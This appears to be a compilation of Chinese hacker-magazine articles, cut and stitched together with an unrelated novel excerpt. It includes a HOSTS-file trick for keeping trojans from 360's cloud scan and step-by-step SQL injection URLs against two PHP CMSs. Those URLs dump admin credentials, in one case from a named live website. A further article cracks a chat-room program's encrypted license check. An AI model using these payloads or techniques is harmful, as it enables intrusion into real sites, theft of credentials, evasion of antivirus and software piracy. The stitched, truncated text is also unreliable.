360 安全卫士的“云查杀”，其查杀本质就是 MD5 验证，验证指定位置的文件的 MD5 与 360 文件知识库里的文件的 MD5 是否相同，据此来显示结果。这里说的“指定的位置”指的可以是活动进程、一般启动项、进程加载项、系统服务、Explorer 对象、动态链接等等。

从上面的叙述中我们应该知道，过 360 “云查杀”的关键就是阻止其进行 MD5 文件验证。因为这个验证过程会把我们的木马文件的 MD5 值与文件知识库的 MD5 值进行对比，所以要想过 360 “云查杀”，一方面可以让“云查杀”程序无法提取到我们的文件，比如使用文件独占等方式来解决；另一方面可以让“云查杀”程序无法定位到 360 存储的位置，也就是无法定位到其存储 MD5 值的位置。

我们都知道，360 “云查杀”有个与之对应的文件知识库，里面存储了大量文件的 MD5 值，也就是说，如果是已知的木马上传上去查询，就会被定为“木马”。我们有理由相信“云查杀”需要对比的 MD5 数据存储的位置也应该存在。

事实上，用 WSockExpert 捕获 360 “云查杀”上传文件时候的数据包，可以得到与“云查杀”相关的地址是“qup.f.360.cn”，把这个域名屏蔽掉就达到了反“云查杀”的目的。

屏蔽网站的常用方法当然要算修改 HOSTS 文件了，我们进入 C:\WINDOWS\system32\drivers\etc。打开“HOSTS”文件，把“qup.f.360.cn”这个网站按常规方法 host 域名劫持一下，按照最后一行输入即可。

这个时候，你再试试“云查杀”看看，还能正常运行吗？“云查杀”虽然厉害，但是任何东西绝对不是完美的。事实上，“云查杀”还有很多尚未公开的 BUG，勤劳的菜菜继续探索吧！

**编辑点评：**
我估计好多人都不知道什么是“云查杀”吧？大家如果还不明白的话，百度下再结合本文就可以很容易的了解“云查杀”了。本文算是一个小技巧吧，放出来大家学习下！当然，屏蔽“云查杀”的方法我想肯定不止这一个。

---

## 将反隐身之战进行到底

图 FREDOM

自从 QQ 有了隐身功能之后，反隐身的战役就没有停止过，彩虹、赛博……这些 QQ 外挂的功能自然是强大，可是同时存在着安全问题，所以非工具手段反隐身就显得尤为重要。在 0905 期上有人介绍了利用黄色网站连接来查看好友是否隐身，的确很“酷”！这期我给大家带来新的方法，只需要你的 QQ 宠物。

首先我们先领取一个宠物，以前领养宠物比较困难，现在简单多了，只要点击皮肤上的宠物图标即可进入领取界面。

工具得到了，接下来看看怎么查看好友是否隐身。登录宠物后，右键选择“宠物娱乐”——“发送宠物炫”。既然要发送东东，必定要有接收方，BUG 就出现在读取好友列表的时候。因为好友列表只显示在线用户，而 QQ 宠物还不能将隐身与在线区分开来，所以那些“隐君子”就会出现在好友列表中了。

在这里我首先对自己的大号进行隐身处理，同时在小号中看看大号是否还在线，结果为 NO。接下来用小号发“宠物炫”，并且读取好友列表。如果好友在线或隐身的话就可以看到了，而且发送是无法成功的。

其实这种方法还可以一条记录：10.10.10.13 admin2123456789。于是它就将 admin2123456789 解析成 10.10.10.13 了，自然就找不到了。

我们可以输入命令 `nbtstat -c` 进行验证，可以看到在 NetBIOS 名称缓冲区中多了这样一条记录。

**注意：这时如果用 PING admin2123456789 会得到解析成 10.10.10.10 的结果。**

这是怎么回事呢？因为 PING 命令是操作的主机名而非 NetBIOS 名，所以解析顺序不一样了，按照第一种解析顺序来看结果就是正常的了。

（为了通过 NetBIOS 名来达到目的的），执行 `nbtstat -a admin2123456789`（别忘了清空缓存），结果同样也有不一样的地方，看看 NetBIOS 名称缓冲区吧。咦，奇怪了，怎么没有记录了呀？因为 HOSTS 是解析的主机名或 DNS 名，所以不会出现在 NetBIOS 名称缓冲区了。

我们接着做，先把 WINS 服务停止，然后使用命令：`nbtstat -R`（千万不要问为什么了，上面应该讲得很详细了），再来执行 `nbtstat -a admin2123456789`。命令执行成功了，因为这时系统是采取广播的方式了。再来看看缓冲区，输入命令：`nbtstat -c`，已经解析到正确的 IP 地址了。

## 关于 HOSTS 文件与 LMHOSTS 文件的讨论

在网上看到对这个文件有很详细的解释了，有人提到它们的优先级。其实针对不同的计算机名，解析是不一样的，通过以上的实验已经证明了。我们要记住：HOSTS 文件包含由 IP 地址和相应的主机名或 DNS 名称组成的静态查询表；LMHOSTS 文件包含由 IP 地址和相应的 NetBIOS 计算机名称组成的静态查询表。它们是可以同时存在的。

奇怪现象的解释：这个时候我们执行 `PING admin2123456789`，它仍然会解析成 10.10.10.10，当然不通了，但是我们却可以通过网上邻居访问。执行 `net view \\admin2123456789`，这是 admin2123456789 上的共享资源，可以正常访问了。这一次证明了 PING 是针对主机名的，而网上邻居采用的是 NetBIOS 名。根据不同计算机名的访问过程就可以了解优先级的情况了。

我相信通过上面两个实验是完全可以理解不同计算机名的解析方式及优先权了。要注意的是，实验成功的关键在于：一是实验前本地系统的配置要准确，二是适当的时候不要忘了清空缓存，不然会影响实验效果，导致我们的误解。

继续操作，我们这时把 admin2123456789 这台机器从网络上拿掉（拔掉网线最省事了，呵呵），再来执行 `nbtstat -a admin2123456789`（别忘了清空缓存）。虽然都是没有找到 NetBIOS 名为 admin2123456789 的机器，但解析的结果是不一样的，因为这是系统在广播没有找到后通过 LMHOSTS 文件解析得到的结果。

现在我们再让 LMHOSTS 文件失去作用（我是通过修改文件……）

#### 编辑点评：
域名的概念小菜们应该不陌生，但到底 NetBIOS 名是怎么回事，计算机名有什么用，这些问题你也清楚吗？通过本文，这些问题你都能找到答案，虽然入侵过程中也许用处不大，但在你处理电脑问题的时候，遇到相关问题你就能很快找到症结所在。想成为别人眼中的高手？其实不难。

---

## 浅谈操作系统原理(4)
图 五岳剑派 HackRain

**从本文您可以学到：**
了解操作系统管理 CPU 的方法

上期的杂志缺了一篇，是因为作者本人很苦恼。前两篇连载，赤龙大哥在私下坦言看不大明白，加上土豆所言，我也很烦恼怎样用通俗的语言来继续我们的《操作系统原理》。

这个原理不是我创造的，我所做的是把我学到和总结的知识用我的方法介绍给更多的朋友。一来内容确实很多，二来那些抽象的知识很难具体化，不像拿个 WebShell 的文章，哪怕看不明白，至少有方法在，有直观的截图在。所以，我能做的，只是尽我所能，加上朋友们的钻研，继续我们的操作系统原理之旅。

上期说到操作系统管理 CPU 的内容，接下来我们看看方法，究竟操作系统通过怎样的方法来管理 CPU 呢？其实一点都不复杂，就两个字：**中断**。

### 3、操作系统管理 CPU 的方法

讲到 CPU 状态时，已经说过中断技术。结合以前学到的知识我们知道，CPU 通过设备发出的中断请求信号，判断其优先级的形式来分配资源，所以中断技术理所当然地成为操作系统管理 CPU 的方法，接下来的内容也将围绕“中断”展开。

### (1) 中断的优点

中断技术能够大大提高 CPU 效率，使 CPU 在无中断请求时稳定处理当前对象，在有中断请求时快速、准确确定设备，判断下一步的工作。中断也大大简化了 CPU 的工作机制，虽然方式单一，却以最优的模式减少了 CPU 资源消耗。中断技术能够大大提高系统及时处理能力，使其对 CPU 资源的分配变得更严谨科学且简单易行。

### (2) 中断源和中断逻辑

这两者是 CPU 接收中断请求的方法。

中断源，顾名思义就是中断的源头，它可能是某一个硬件设备，但又不完全是，所以可以抽象地理解为一种导致中断的类型。导致 CPU 接收到中断信号的原因我们就称为“中断源”，比如源于机器故障的中断，源于输入/输出设备的中断，源于程序的中断等。

**中断源向 CPU 发出中断请求，这主要分为“可屏蔽中断请求”和“不可屏蔽中断请求”。**

前者大多源于输入/输出设备，这种中断可以被 CPU 屏蔽，即让这些中断不起作用。当 CPU 接收到来自这些设备的中断请求，可以不予以响应。比如某个程序需要禁用键盘这个输入设备，会在程序的 PSW（这个前面有过讲解）中的中断屏蔽位中建立一个表示“是”的二进制值。当我们按下键盘时，CPU 依据程序 PSW 中的屏蔽位为“是”，就会对键盘发出的中断请求不做出任何回应，不同意它的请求，那么我们的按键自然不会有任何反应了。

再来看看后者，“不可屏蔽中断请求”主要运用于系统故障，比如掉电、硬件冲突导致的停止当前运行等请求。当比较突发的状况发生时，这些中断源发出的中断请求是不可屏蔽的，且优先级很高。无论此时程序中的 PSW 中断屏蔽位处于怎样的值，都必须响应这个请求。

也有一些程序运行中的问题，比如缓冲区溢出、数据冗长以及软件中断，也是操作系统中重要的中断。我们可以看到，这些中断类型很多，就导致了很大几率的同时发生，可能在每个时刻发生两次或以上的中断，这时就需要依靠**“中断逻辑”**来判断中断的优先级，CPU 依照优先级的先后来依次响应中断。

那么 CPU 如何接收到中断源发出的中断信号呢？

在 CPU 中，有一个被称作**“中断寄存器”**的机构，中断源发出的中断信号不会直接到达 CPU，而是寄存在中断寄存器中。CPU 在完成一条指令的最后时刻会扫描中断寄存器，看是否有中断信号的存在。若没有，则继续执行下一条指令；若有，CPU 依靠识别中断码（**中断寄存器将中断信号内容按规定编码送入程序的 PSW 相应位置，称为中断码**）来响应中断，这些我们看似复杂的过程实际是一瞬间完成的。

来理清下思路：中断源向 CPU 发出的中断信号首先寄存于中断寄存器中，CPU 在完成一条指令后开始扫描中断寄存器。扫描到以后，中断寄存器将信号送入程序的 PSW，形成中断码，CPU 再通过识别中断码就得到若干个中断信号。接着再依照中断逻辑的优先级规定，判断处理的先后，针对每一个具体的中断信号，CPU 分析出这类指令是否为可屏蔽中断请求。若是，则查看指令对应的程序的 PSW 中，中断屏蔽位对应的值。对应为“是”则屏蔽，反之则不屏蔽。若为不可屏蔽中断，则无条件响应中断，以此反复。

### (3) 中断处理的过程

当我们知道 CPU 如何接收中断信号后，再来看看究竟在 CPU 机制中是如何处理这些中断的。这是一种软硬件结合的过程，理解起来真的很困难。

- 首先，程序的 PSW 中的内容会存放到 CPU 的“堆栈寄存器”中，操作系统此时会根据 PSW 的规定来改变 CPU 的工作状态；
- 然后，将当前运行的指令的起始地址和下一条指令的地址信息存放到“堆栈寄存器”；
- 接着，从“中断向量表”中找到中断服务程序的首地址并交给 CPU；
- 最后，CPU 开始执行中断请求，即开始响应请求。当中断结束，CPU 会依次清除堆栈的信息，继续响应中断前的工作。

### (4) 概念补充

#### ①中断向量表
这是操作系统启动后，在内存中形成的一个表单，保存了中断服务程序在内存中的起始地址。我们知道，CPU 是通过在内存中的“寻址”从而定位到具体程序和具体指令的，中断向量表按中断向量编号的顺序来建立，CPU 首先接收到中断请求对应的向量编号的值，再通过查找向量表中对应的服务以及所在地址来定位程序及响应中断。

#### ②响应中断的时机
大家回想一下在“中断处理的过程”中，CPU 的“堆栈寄存器”存入了什么内容？没错，是当前指令与下一条指令的地址信息。存入这两者是为了运行和预运行，这也是处理中断的时机，即在两条指令之间。

#### ③中断服务程序
懂硬件的朋友应该都知道主板的 BIOS 芯片，这是一个软硬件相结合的机构，中断服务程序就保存在其中，它相对于操作系统是独立的。每次启动计算机，保存于 BIOS 中的 256 个中断服务程序就会加入内存中，CPU 通过中断向量表来执行它们。

### (5) 操作系统通过“中断”控制 CPU

因为 CPU 是一个相当强悍的设备，软硬件并存，有一定的独立性，所以操作系统需要控制和分配 CPU 资源，中断是唯一的手段。操作系统通过中断使 CPU 自身修改内部寄存器的二进制值来改变工作状态。

我们可以看到，CPU 完全是在自主运行，哪怕是改变工作状态都是自身完成。改变 CPU 的工作状态就相当于控制了它，而改变工作状态的途径就是中断。操作系统通过中断来对其加以约束，这其中重要的一点在于，操作系统是计算机中最重要的软件，所以发出的优先级是最高的。

操作系统向 CPU 发出的中断请求会在很高的优先级下被执行，从而间接地改变 CPU 状态，并间接地取得 CPU 的控制权。

时钟中断是操作系统经常使用的中断方式之一，因为时钟是计算机进行工作的时间标准。比如我们曾经说过的“时间片轮转调度”，这里的时间不是日常生活中的北京时间，而是 CPU 运行对象的周期。

正因为时钟的重要，操作系统能够通过拥有高优先级的时钟中断来让 CPU 执行“中断服务程序”。CPU 在执行中断中，利用自身的功能改写自身标志寄存器的值，这样也就进行了状态的改变，如从“管态”到“目态”。这样看来，操作系统的确控制了 CPU。

除了时钟中断，还有诸如除法溢出中断、程序调试设置中断等。操作系统控制 CPU

冲进去时都愣住了：印小天双臂张开将 Maggie 护在身后，几滴很是夸张的冷汗从额头唰唰地流下来，而对面则是一个青面獠牙的“鬼怪”趴在地上直叫唤，周围的设备也摔了一地。

等工作人员弄清事情始末后，皆是哭笑不得，谁叫印小天太“胆小”了呢。人在受到极端恐吓威胁时会发出自然防卫反应，一种是逃跑，另一种则是攻击。不巧印小天选择了后者。当那个倒霉的青面獠牙一下子钻出来并怪叫的时候，迎接他的除了尖叫还有印小天的一阵暴捶。

最后事情的解决是，对方不追究印小天打人的责任，只要求赔偿被打人员的医疗费用以及损坏设备的费用。

站在医院门口，印小天难得地挠挠后脑勺，对着 Maggie 一副欲言又止的样子。看到一向成熟稳重的印小天如此模样，Maggie 更是忍俊不禁，轻快地捶了一把印小天的胸脯，笑骂道：“干嘛呀，大家都是自己人，有话就说呗。”

“喏，是这样的，医药费和赔偿先前打烂的设备，一共需要 5000 元左右，我身上没那么多现金，你可以先借我一下吗？”印小天含含糊糊地说道。

“咯咯咯？”Maggie 先是发出一声银铃般的娇笑，从小包里捻出一张金卡晃在印小天眼前，又莺声细语地说道：“只要你喜欢，不但这张金卡，我整个人都是你的。”

印小天愣了半晌，没有回答，只是伸手去拿金卡，“密码多少？”

“等等。”Maggie 一把收回金卡，然后独自朝对面的银行走去。一会儿印小天看到 Maggie 手上拿到一沓钞票朝自己这边走过来。印小天暗道一声“麻烦”，然后又重新换上笑脸迎了上去。

“怎么样，帅哥，考虑好了吗？你看这张卡的号码，就像我的人一样漂亮。”Maggie 把票子塞给印小天，然后又拿出金卡在手指上晃悠，借着中午的阳光反射着印小天的眼睛。

印小天夺过金卡，放在手上瞄了一眼道：“的确是一个很好的账号，不过我觉得还是你人更漂亮。”

Maggie 心里一动，半遮半掩地试探道：“那我们？”

“Maggie 小姐，我明天会把钱打到你账号上去的。噢，对了，我女朋友就在这家医院上班，现在她马上就要下班了，她是一个很小气的人，所以为了避免大家不必要的麻烦，如果 Maggie 小姐没有别的事情，我先过去了。”印小天突然恢复到往日低沉冷峻的面容，说完便转身朝医院里走去。

“你？”足足有那么十来秒钟 Maggie 才返过神来，狠狠地从牙缝里蹦出几个字，“小子有种！”只是可怜那张金卡也在 Maggie 的手里骤然变形。

郁闷归郁闷，事后，直到几个月之前，Maggie 都没有想明白，为什么作为公司下属的印小天，竟敢如此玩弄身为公司老总千金的自己。

“朋友，受委屈了，这是我电话，出院后有空就一起出来喝个酒，我做东。”病房里印小天拍着那位“鬼怪”的肩膀，毫无遮掩地颇显出几分北方男子的气概。看到印小天这个样子，那位“鬼怪”就更抑郁了：这人咋看都不像胆小的主啊，怎么之前吓得跟个跳跳猫似的，难道故意在那位美女面前装二？我靠，这是什么逻辑？

## 意外发现

2008 年的夏天和以往一样炎热。

呆在空调房里工作的印小天觉得周围空气很是湿闷，正想撑个懒腰活动一下，不想却“哐当”一声连人带椅子一起翻在了地板上。

“该死，身体都僵硬了。”印小天囔囔咒骂了一声，抬头却发现之前用于编码的两个液晶显示器此时已经变成了四个，隐约似乎又变成了八个？

此次架设丰收乡交通枢纽的路桥工程是国家级重点扶持项目，地势偏僻的“丰收乡”的现状远不如其名字来得那么乐观。居住在这里的是好几千户少数民族，经济和教育都很落后，有的人一辈子也没有出过山，甚至连火车是什么样的都没看见过。作为“钦点”的电力系统副总工程师，印小天心里是一百个不愿意来这个地方。倒不是说印小天娇生惯养吃不得苦，想当年他也是靠着努力一步一步走出大山的，只不过正处初恋热恋期的印小天，实在是有点舍不得第一次体会到的幸福甜蜜，说起来很小男生的样子。

山区公路绵延繁多，最平坦的地方也是近于丘陵地带，大型的运输设备有时根本用不上，就只好雇佣当地的民工。这样一来，雇佣上千人的当地民工也为当地人增加了一笔不小的收入，正所谓一举两得。而且不止这些，随着整个工程的展开，一些生活上的现代化设施也被带进了山里来，大点的有比如：xx 商业银行、移动、联通营业厅等，小点的有理发店、餐馆、书店等等，当然这些设施建立的本意是提供给前来工作的工程人员。

下午的太阳使劲地向大地挥洒着热量，印小天用手揩了一把额头上的汗水，又重新扶上推车把手，将眼前这辆简易的人力石头运输车继续推往目的地。要是放在平日里，工作累了，印小天一般会去公司的健身房搞搞弄弄，不过目前的状况显然是不可能了。于是他突发奇想地客串一把“车夫”，再说自己小时候也不是没推过这种车子，说来还是老本行。

“啊，小心。”随着一声从背后传来的惊呼，印小天回头只见一辆负重手推车以很大的加速度朝自己冲过来。时间根本不由得印小天去纳闷车主去哪了，他迅速将自己的车斜靠在路边，微蹲身子双手展开作“擒贼擒王之势”。因为此时地处下坡，如果印小天自己闪开了，但下面的人，尤其是还没反应过来的人必遭殃！

等印小天精确抓住把手控制住手推车后，才发现车后面其实是有车夫的，一个上了年纪的老人。只不过精神恍惚，人没控制住车，反而被车带着向前跑。

“小伙子，谢谢你呀。”周围有人送来清凉油给老人抹在额头和人中，估计真的是中暑的缘故，老人一会便清醒了许多。醒过来的老人便是一顿感激之语。

“老大哥，不客气。您这把岁数应该在家里歇着才是啊，儿孙满堂也该享享清福了。”印小天拿起旁边的两瓶水，一瓶递给老人，一瓶自己拧开就朝嘴里猛灌。

老大哥客气地接过水，叹了口气道：“我们这里的人不能和你们城里人比啊，这里每个人都有自己的负担，过日子还得靠自己啊。”不过马上又喜悦地说道：“不过现在你们来了，以后可以通车了，我们就能够富裕起来了。收音机里老说‘要想富先修路’，可能等到修成的那天，我们这些老头子也许已经不在了，不过眼前这份活也够养活好几个人的了。”说罢还小心翼翼地从上衣兜里掏出一张崭新的类似存折的东西。

“这是存折？”印小天脱口而出显得有一些惊讶，不过想到上头动用关系搬过来的那家商业银行，又觉得不足为奇了。

“呵呵，是啊。把钱放银行里，自己只需要保存一个小本子，即使本子掉了或者被偷了，没密码的话别人也不能取到钱，这样心里就踏实多了。而且存定期银行还会根据存钱的数目返回一些钱给我们呢。我们每个月的工钱也是被你们放在这里的，而且一个月的工钱够我们生活好几个月，其余的也就不用取出来了，就存在里面。”

说罢，老人还特意用手指着存折上面一些带小数点后的数字。印小天探过头一看，原来老人指的返钱就是利息的意思。不过可能是职业病的原因，印小天向来对数字很敏感，看到老人存折上的几行数字老感觉不对劲。

“小伙子，有空来我们家做客，尝尝我们的当地菜，现在我得接着干活去了。”老人笑着和印小天打完招呼，推着车走远了。望着远去的背影，那已蹒跚的步履，微弓的后背，印小天突然想起了父亲。

且说不远处的一个办公房内，肥总和她的准女婿站在玻璃门前，把刚才发生的一幕都看在眼里，“那个人不像是本地人啊，一身运动名牌还干这活？不知是脑子坏了还是穿的都是冒牌货。”肥总的准女婿此时像是正常看完一部电影之后多多少少有点“自己的看法”，而不管说得是否切合主题。

“哈哈，小孙呀，这次你可就走眼了。”肥总哈哈一笑，正准备继续说下去，却被突然闯进来的 Maggie 打断了，“说得天下好像就你有几个臭钱似的，多学学人家吧，你除了靠你老爸那么点钱，你还会什么！”很明显这个准女婿属于“软耳根”那类货色。

臭骂了自己的未来老公一顿，Maggie 又转过身哼哧哼哧地对肥总开始撒娇：“爸，这个星期我想和以前的几个同学去巴厘岛玩，你老人家支持下啦。”

肥总对于自己这个唯一的女儿很是溺爱，别说巴厘岛，去火星都支持。三下五除二搞定自己的老爸后，Maggie 就准备溜，走过自己未来老公身边时还很蔑视地“哼”了一声。这个未来女婿可能那个郁闷呐，思前想后也不知道自己哪里得罪了 Maggie，等到 Maggie 快关上门的时候，猛然大叫一声：“Maggie，其实我也很乐于助人的！”

Maggie 翻翻白眼，一副对之无可救药的语气吐出两个字：“白痴。”

“咳咳”肥总故作地干咳两声，提示某人该转移注意力了，“我说小孙呐，不是我说你，你得好好处理一下和我女儿的关系。你现在虽然是 xx 商业银行的高级主管，不过早晚也会接替我的位置，我可是一直看好你的，你别自己不给我争气啊！”

“是是是。”孙雅女婿习惯性地一阵点头哈腰，不过心里却在琢磨着：不是学助人为乐，那是叫我跟那小子学什么？莫非，改天我也得穿一身“阿玛尼”去搬石头？

不得不说，老奸巨猾的肥总准女婿在商场可谓是游刃有余（之前 Maggie 的话倒是有点言不符实了），不过在揣摩这种古怪脾气的千金时却像个门外汉。

印小天放下车子往空调房回走的路上，心里一直都在纠结于刚才存

图 1 注射结果

```php
echo "id=".$id."<br>";
$exec="$sql_test";
$result=mysql_query($exec);
return $result;
}
```

这样我们就可以通过网页清晰地看出我们所构造的注入语句了，如图 1。

虽然页面错位了，但是可以显示我们构造的 SQL 语句，以及提交的 Id 值，这样可以辅助我们调试。

我们提交 URL，判断有多少个字段：
- `http://127.0.0.1/cms/qcms/view.php?id=6 order by 24 %23` 显示正常
- `http://127.0.0.1/cms/qcms/view.php?id=6 order by 25 %23` 显示错误

证明有 24 个字段，然后我们构造注入语句：
`http://127.0.0.1/cms/qcms/view.php?id=-6 union select 1,2,3,4,5,6,7,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3,4 from admin%23`

发现报错：
```
Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in D:\xampp\htdocs\cms\qcms\inc\news.php on line 99
Warning: mysql_num_rows(): supplied argument is not a valid MySQL result resource in D:\xampp\htdocs\cms\qcms\inc\news.php on line 112
```

这是由于 `$id` 被带入多条 SQL 语句执行，由于它们的参数个数不一样，导致我们不能进行联合查询。没关系，我们选择手工查询，只是比较慢。或者大家直接可以使用工具，这里讲解的是漏洞发掘过程，所以我们手工查询下。

获得账号，提交如下 URL：

第一位：
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_name,1,1)) from admin where id=1)>96` 返回错误
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_name,1,1)) from admin where id=1)=97` 返回正常

第二位：
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_name,2,1)) from admin where id=1)=100` 返回正常

第三位：
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_name,3,1)) from admin where id=1)=100` 返回正常

通过以上操作，我们可以得到管理员账号的 ASCII 码为 97 100 109 105 110，利用编码转换工具转换后得到的账号为：admin。

获得密码，提交如下 URL：

第一位：
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_password,1,1)) from admin where id=1)=97` 返回正常

第二位：
………………

第三十二位：
`http://127.0.0.1/cms/qcms/view.php?id=1 and (select ascii(substring(admin_password,32,1)) from admin where id=1)=51` 返回正常

以此类推，我们可以得到 32 个 ASCII 码，分别为：50 49 50 51 50 70 50 57 55 65 53 55 65 53 65 55 52 51 56 57 52 65 48 69 52 65 56 48 49 70 67 51。利用编码转换工具转换后即可得到密码的 MD5，即：21232F297A57A5A743894A0E4A801FC3。通过 www.cmd5.com 网站在线破解得到密码：admin。

## 四、写在最后

至此我们便完成了从发现注入到构造利用语句的过程，并简单写出利用语句，最后祝大家学得开心。业精于勤，荒于嬉，望大家各有所成，下期再见。

(qcms_php.rar (Qcms 内容管理系统完整源码) 已经收录在光盘中)

> 编辑点评：很简单的例子，通过实际的操作传递了一些发掘 0day 的方法和技巧。

---

## 0Day 发掘技术入门篇之二
### ——实例发掘 PHPWEB 分享式智能网站管理系统 0Day

- 从本文你可以学到：
  - phpweb 漏洞分析

- 测试环境：Apache/2.2.11 PHP/5.2.9 Mysql/5.1
- 测试软件：PHPWEB 分享式智能网站管理系统 UTF-8 简体中文版 v1.2.0
- 下载地址：http://down.phpweb.net/soft/phpweb_base_v12.zip
- 官方主页：http://www.phpweb.net/
- PHP.ini 配置：magic_quotes_gpc=Off register_globals=Off

## 一、写在前言

“PHPWEB 分享式智能网站管理系统是一款具有专业级功能和傻瓜式管理的网站管理软件。全新的可视化插件拖放排版模式，让网站制作如同搭积木般便捷易玩；……略……可卸载和安装模块；”

官方自己的描述貌似很强大，从界面看起来确实不错，后台布局也非常合理。但安全方面并没有做任何防护，非常适合我们学习漏洞发掘技术。本次测试的 phpweb_base_v12.zip 源码存放于光盘中，大家自行架设，下面一步步带领大家分析漏洞，并构造我们的注入语句。

## 二、漏洞挖掘

开始寻找注入点，我们打开如下 URL：
`http://127.0.0.1/cms/phpweb_base_v12/member/home.php?mid=122'`

增加单引号，发现报错。然后换成“and 1=1”，正常显示，使用“and 1=2”，页面报错，确定存在注入。打开根目录下的 `comment\module\MemberCommentList.php` 文件进行分析，关键代码如下：

```php
<?php
……略……
function MemberCommentList(){
    ……略……
    if(isset($_GET["mid"]) && $_GET["mid"]!="" && $_GET["mid"]!="0"){
        $mid=$_GET["mid"]; //外部提交 mid
    }else{
        return "";
    }
    $scl=" iffb='1' and pid='0' and memberid='$mid' "; //mid 被带入变量 $scl
    if($showtj!="" && $showtj!="0"){
        $scl.=" and tuijian='1' ";
    }
    $fsql->query("select * from {P}_comment where $scl order by dtime desc limit 0,$shownums"); //$scl 被带入数据库查询
    ……略……
}
?>
```

我们用 GET 提交的变量 mid 首先被带进 `$scl`，然后再被带进数据库，于是便形成注入漏洞。

## 三、构造注入语句

查询表中有多少个字段，构造 `http://127.0.0.1/cms/phpweb_base_v12/member/home.php?mid=11' order by 24 %23` 时报错，证明字段有 23 个。或者我们直接用 PHPMyAdmin 等软件查看 comment 表段就可以知道有多少个字段了。

构造注入语句：`http://127.0.0.1/cms/phpweb_base_v12/member/home.php?mid=122' union select 1,2,3,4,5,6,17,8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3%23`，如图 1，7 字段爆出来了。

接着构造 `http://127.0.0.1/cms/phpweb_base_v12/member/home.php?mid=122' union select 1,2,3,4,5,6,concat(user,0x3a,password),8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3 from pwn_base_admin%23`，如图 2，暴出内容。

查询管理员账号密码，构造如下语句：`http://127.0.0.1/cms/phpweb_base_v12/member/home.php?mid=122' union select 1,2,3,4,5,6,concat(user,0x3a,password),8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3 from pwn_base_admin%23`，结果如图 3。

管理员账号密码已经出来了，是 `admin;21232f297a57a5a743894a0e4a801fc3`。

## 四、实例演示

打开 `http://tyesh.cn/i.php` 文件，如图 4。

查询版本，提交：`http://tyesh.cn/member/home.php?mid=122' union select 1,2,3,4,5,6,concat(@@version,0x3a,user(),0x3a,database()),8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3%23`，如图 5。

查询管理员账号密码，构造：`http://tyesh.cn/member/home.php?mid=122' union select 1,2,3,4,5,6,concat(user,0x3a,password),8,9,0,1,2,3,4,5,6,7,8,9,0,1,2,3 from pwn_base_admin%23`，如图 6。

账号密码出来了，是 `gprssdlxr;bbd3a94ad1006aef04474a43f8525d`。

## 五、结束语

机遇只垂青于有准备的人，祝“非安全”迷们都能有所成就吧，下期再见。

(PHPWEB分享式智能网站管理系统UTF-8简体中文版v1.2.0已经收录在光盘中)

**编辑点评：**
简洁明了的文章，可以明确问题的重点在哪里，新手朋友更容易接受。

---

## 月光小屋聊天室破解笔记
**HideHai**

- 从本文你可以学到：
  - 月光小屋聊天室破解流程

写下这篇笔记是因为之前需要用到个聊天室，一开始是考虑国外的，但没有找到合适的，然后看到了月光小屋，虽然不能说做的很好，不过满足一般用户是足够了。

这套程序需要购买，非授权版本只能支持 10 人在线，找不到其它比较满意的程序了，先拿着看看。这套程序采用 PHP+MYSQL 搭建，能支撑在线用户 200-300 人，多房间多人同步聊天以及进行视频，具体信息可以在官网查看：http://s-net.cn。

下载源码后，发现在根目录有授权文件 `licence.php`，对授权文件的验证是由在 Include 目录下的 `Global.php` 完成的，所以如果要实现非授权，这个 `Global.php` 文件就很重要了。

不过事先我们是不知道这个文件是用来验证授权的，只不过因为它的命名释义，以及查看其它文件对它的引用数量。很显然，其中有能用到的重要信息，即使它不是验证授权的文件，通过解密我们也可以找到具体的验证文件。

下面我们就开始破解之路。打开 `Global.php`，这个文件由两部分组成，上半部分代表了解密函数，`eval()` 是在这个文件中被加密了的代码，如图 1。

```php
<?php if(!function_exists("T7E5AC70E7A70FAB1A595B72EACEB2E")){ function T7E5AC70E7A70FAB1A595B72EACEB2E($T5F6C5270E7A70FAB1A595B72EACEB2E = base64_decode("STF18E217753C373B98D95D4EAF9FB4D3C188"); ...
```

首先要破除文件的障眼法，这一大堆变量名让人眼花缭乱，我们用其它的单词对变量名进行替换，这个过程需要有耐心。建议大家用 EditPlus 等编辑器进行查找替换，会省力很多的，替换后结果如图 2。

```php
function rundecode($tag){
    $tag = base64_decode($tag);
    $decode = "";
    $share = 0;
    $s_at = 0;
    $cat = (ord($tag[11]) << 8) + ord($tag[12]);
    $scuse = 3;
    $rabit = 0;
    $third = 16;
    $shock = 0;
    $slen = strlen($tag);
    $_file = __FILE__;
    $f_file = file_get_contents($_file);
    $spact = 0;

    preg_match('/(print|sprintf|echo)/', $_file, $magic);

    for ($scuse < $slen; ) {
        if (count($magic)) {
            exit;
        }
        ...
    }
}
```

看图 2 的代码，上半部分对传入的参数进行 base64 解密，获得参数所代表的文件地址，读入文件的内容，对文件内容进行处理。代码下部分的内容比较复杂，又是循环又是移位。

当时在这个地方下了不少功夫，不过突然间发现了这段代码的致命伤，我们的目的是为了获得文件的源代码，不论它怎么处理和移位，最终输出的都是可执行的脚本代码，那硬伤在哪里呢？程序的作者为了保护代码，得不偿失地使用了加密。为了防止加密被破解而输出源代码，用了正则匹配输出语句。如果文件内容里有输出语句，则终止脚本的执行，关键代码如图 3。

### 新洞练练看

```php
preg_match('/(print|sprint|echo)/', $__File, $magic);
for ($i=0;$i<count($magic);) { //如果长度大于0则开始循环
    if (count($magic)) { //数组中的元素数目或对象中的属性个数
        exit;
    }
    if ($bird == 0) {
        $cat = (ord($tag[$mouse++]) << 8);
        $cat += ord($tag[$mouse++]);
        $bird = 16;
    }
}
```

既然看穿了作者的意图，那么我们就对症下药，将判断的代码注释掉，在文件末尾对解密后的代码进行输出，如图 4。在文件结尾处，我们用 `echo` 打印出处理后的脚本代码，在 PHP 环境中调试一下，如图 5。

可以看到，我们需要的 `Global.php` 文件的源码已经显示出来了。重新对它整理格式，可以看到期待已久的验证函数，如图 6。这个就是验证函数了，在我注释的地方 `return true`，就可以进行授权。

